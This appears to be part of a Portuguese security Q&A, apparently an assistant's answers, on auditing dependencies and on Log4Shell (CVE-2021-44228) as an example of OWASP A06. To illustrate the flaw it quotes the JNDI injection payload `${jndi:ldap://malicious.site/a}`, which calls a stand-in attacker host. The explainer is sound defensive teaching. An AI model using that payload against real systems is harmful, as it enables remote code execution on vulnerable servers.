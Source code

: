 | Ação                    | Ferramenta                                                            |
| ----------------------- | --------------------------------------------------------------------- |
| Analisar CVEs e alertas | [Snyk](https://snyk.io), [Packagist Security](https://packagist.org/) |
| GitHub auto-alertas     | Dependabot (integração com GitHub)                                    |
| CI/CD com segurança     | GitHub Actions, GitLab CI, Bitbucket Pipelines etc.                   |

---

Se quiser, posso te ajudar a configurar um `composer audit` ou integrar o `Dependabot` no GitHub do seu projeto Laravel. Deseja isso?

## Q3 - Como foi o Log4j (aaque no Java recente)

Excelente pergunta! O ataque **Log4Shell**, que afetou a biblioteca **Log4j** no Java, é um **exemplo clássico e catastrófico da vulnerabilidade A06 do OWASP Top 10: uso de componentes desatualizados e vulneráveis**.

---

## 🚨 O que foi o ataque Log4Shell?

* **Data:** Revelado publicamente em **dezembro de 2021**.
* **Biblioteca afetada:** `log4j-core` (versões 2.0 a 2.14.1).
* **CVE:** [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228).
* **Gravidade:** 10/10 (máximo na escala CVSS).

### 🔥 O problema:

A biblioteca **Log4j**, amplamente usada para logging em aplicações Java, permitia **execução remota de código (RCE)** com algo tão simples quanto:

```java
logger.info("${jndi:ldap://malicious.site/a}");
```

> Essa string poderia vir de **qualquer input externo** (headers HTTP, campos de formulário, etc.) e seria interpretada automaticamente pela biblioteca Log4j, que fazia uma requisição a um servidor externo e executava código remotamente.

---

## 🧩 Relação com a A06:2021 (Componentes Vulneráveis)

* A vulnerabilidade estava em uma **dependência popular, não atualizada**.
* Muitas aplicações Java usavam versões antigas do Log4j **sem saber**.
* **Mesmo quem nunca usou diretamente o Log4j** foi afetado se qualquer biblioteca interna o utilizasse.

🔗 Ou seja:

> **Quem não monitorava ou auditava suas dependências**, caiu direto na armadilha da A06. A falha não estava no código da aplicação, mas na **cadeia de dependências**.

---